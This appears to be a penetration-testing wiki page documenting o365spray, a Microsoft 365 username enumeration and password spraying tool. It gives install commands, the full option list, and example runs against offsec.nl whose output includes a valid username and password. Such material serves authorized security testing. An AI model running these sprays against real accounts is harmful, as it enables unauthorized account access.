 ```yaml
---
title : "O365spray"
# pre : ' '
description : "o365spray | Microsoft O365 User Enumerator and Password Sprayer."
date : 2021-11-03T20:53:22+01:00
# hidden : true
# draft : true
weight : 0
tags : ['M365', 'Passwordspray']
---
```


## O365spray

o365spray a username enumeration and password spraying tool aimed at Microsoft Office 365 (O365). This tool reimplements a collection of enumeration and spray techniques researched and identified by those mentioned in [Acknowledgments](https://github.com/0xZDH/o365spray#Acknowledgments).

> WARNING: The oAuth2 module for user enumeration is performed by submitting a single authentication attempt per user. If the module is run in conjunction with password spraying in a single execution, o365spray will automatically reset the lockout timer prior to performing the password spray -- if enumeration is run alone, the user should be aware of how many and when each authentication attempt was made and manually reset the lockout timer before performing any password spraying.

## Installation

```plain
git clone https://github.com/0xZDH/o365spray
python3 -m pip install -r requirements.txt
```

## Usage

```plain
o365spray.py [-h] [-d DOMAIN] [--validate] [--enum] [--spray] [-u USERNAME] [-p PASSWORD] [-U USERFILE] [-P PASSFILE] [--paired PAIRED] [-c COUNT] [-l LOCKOUT] [--enum-module {office,onedrive,oauth2}]
                    [--spray-module {oauth2,activesync,autodiscover,reporting,adfs}] [--adfs-url ADFS_URL] [--sleep [-1, 0-120]] [--jitter [0-100]] [--rate RATE] [--safe SAFE] [--timeout TIMEOUT] [--proxy PROXY] [--output OUTPUT]
                    [-v] [--debug]
```

## Flags

```plain
o365spray | Microsoft O365 User Enumerator and Password Sprayer -- v2.0.4

optional arguments:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Target domain for validation, user enumeration, and/or password spraying.
  --validate            Run domain validation only.
  --enum                Run username enumeration.
  --spray               Run password spraying.
  -u USERNAME, --username USERNAME
                        Username(s) delimited using commas.
  -p PASSWORD, --password PASSWORD
                        Password(s) delimited using commas.
  -U USERFILE, --userfile USERFILE
                        File containing list of usernames.
  -P PASSFILE, --passfile PASSFILE
                        File containing list of passwords.
  --paired PAIRED       File containing list of credentials in username:password format.
  -c COUNT, --count COUNT
                        Number of password attempts to run per user before resetting the lockout account timer. Default: 1
  -l LOCKOUT, --lockout LOCKOUT
                        Lockout policy's reset time (in minutes). Default: 15 minutes
  --enum-module {office,onedrive,oauth2}
                        Specify which enumeration module to run. Default: office
  --spray-module {oauth2,activesync,autodiscover,reporting,adfs}
                        Specify which password spraying module to run. Default: oauth2
  --adfs-url ADFS_URL   AuthURL of the target domain's ADFS login page for password spraying.
  --sleep [-1, 0-120]   Throttle HTTP requests every `N` seconds. This can be randomized by passing the value `-1` (between 1 sec and 2 mins). Default: 0
  --jitter [0-100]      Jitter extends --sleep period by percentage given (0-100). Default: 0
  --rate RATE           Number of concurrent connections (attempts) during enumeration and spraying. Default: 10
  --safe SAFE           Terminate password spraying run if `N` locked accounts are observed. Default: 10
  --timeout TIMEOUT     HTTP request timeout in seconds. Default: 25
  --proxy PROXY         HTTP/S proxy to pass traffic through (e.g. http://127.0.0.1:8080).
  --output OUTPUT       Output directory for results and test case files. Default: current directory
  -v, --version         Print the tool version.
  --debug               Enable debug output.
```

## Examples

#### Validate domain

```plain
$ python3 o365spray.py -d offsec.nl --validate

            *** O365 Spray ***            

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  offsec.nl
   > validate       :  True
   > timeout        :  25 seconds
   > start          :  2021-11-03 20:52:48

>----------------------------------------<

[2021-11-03 20:52:48,396] INFO : Running O365 validation for: offsec.nl
[2021-11-03 20:52:48,652] INFO : [WARNING] The following domain is using O365, but is Federated: offsec.nl
        [!] --> ADFS AuthURL: https://offsec.okta-emea.com/app/office365/
```

#### Passwordspray over ActiveSync

```plain
$ python3 o365spray.py -d offsec.nl -u john.do --paired usercreds.txt --spray-module activesync --spray

            *** O365 Spray ***            

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  offsec.nl
   > spray          :  True
   > username       :  john.do
   > paired         :  usercreds.txt
   > count          :  1 passwords/spray
   > lockout        :  15.0 minutes
   > spray_module   :  activesync
   > rate           :  10 threads
   > safe           :  10 locked accounts
   > timeout        :  25 seconds
   > start          :  2021-11-03 21:00:26

>----------------------------------------<

[2021-11-03 21:00:26,533] INFO : Running O365 validation for: offsec.nl
[2021-11-03 21:00:26,736] INFO : [WARNING] The following domain is using O365, but is Federated: offsec.nl
        [!] --> ADFS AuthURL: https://offsec.okta-emea.com/app/office365/
[2021-11-03 21:00:26,736] INFO : 

[ ? ]   Switch to the ADFS module for password spraying [Y/n] n
[2021-11-03 21:00:30,062] INFO : Running password spray against 1 users.
[2021-11-03 21:00:30,063] INFO : Password spraying using paired usernames:passwords.
[2021-11-03 21:00:30,498] INFO : [VALID] john.do@offsec.nl:Welkom1234!
[2021-11-03 21:00:30,499] INFO : 

[ * ] Writing valid credentials to: '/o365spray/spray/spray_valid_credentials.2111032100.txt'
[ * ] All sprayed credentials can be found at: '/o365spray/spray/spray_tested_credentials.2111032100.txt'

[2021-11-03 21:00:30,499] INFO : Valid Credentials: 1
```

## URL List

* [Github.com - o365spray](https://github.com/0xZDH/o365spray)
